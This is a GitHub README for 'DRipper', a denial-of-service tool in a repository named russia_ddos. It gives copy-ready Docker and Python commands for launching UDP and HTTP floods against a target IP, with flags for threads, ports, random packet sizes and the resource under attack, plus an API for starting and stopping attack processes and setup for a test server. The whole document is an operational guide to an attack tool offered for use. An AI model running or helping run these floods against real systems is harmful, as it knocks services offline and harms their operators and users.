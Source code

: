 # Description
This is clone of one of ChameleonTartu repos!! 
Creds for original scripts to him!

https://github.com/ChameleonTartu

## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
1. Docker

```bash
docker run -ti --rm alexmon1989/dripper:latest -s testip -p 80 -t 100
```

2. Directly with Python.

Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default - random from (22, 53, 80, 443) for every packet sending);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

-m - attack method: udp (default), http

-r - send packets with random length (up to 50 Kb, works only with UDP attack method)

--resources - name of the resource under attack

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u DRipper.py -s testip -p 80 -t 100 -r 1 -m udp
# OR
python3 -u DRipper.py -s testip -p 80 -t 100 -r 1 -m udp
```


## API

API is a more convenient wrapper over start, stop, list processed for Dripper.py

```
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
pip install requirements.txt
# or
pip3 install requirements.txt

pip3 install dnslib

python api.py
# or
python3 api.py
```

Swagger documentation is under 

```
http://localhost:49155/docs
```

## Running test server

Compiling and running locally: 
```
cd test-server/src
javac TestSocketServer.java

# Run
jar cmvf META-INF/MANIFEST.MF heroku/TestSocketServer.jar *.class
java -jar heroku/TestSocketServer.jar mod
  
# Or
java TestSocketServer
```
Deploy to heroku:
```
cd heroku
heroku plugins:install java
heroku create --no-remote
heroku deploy:jar TestSocketServer.jar --app <your app>
heroku config -a <your app>

heroku logs --tail --app <your app>
```

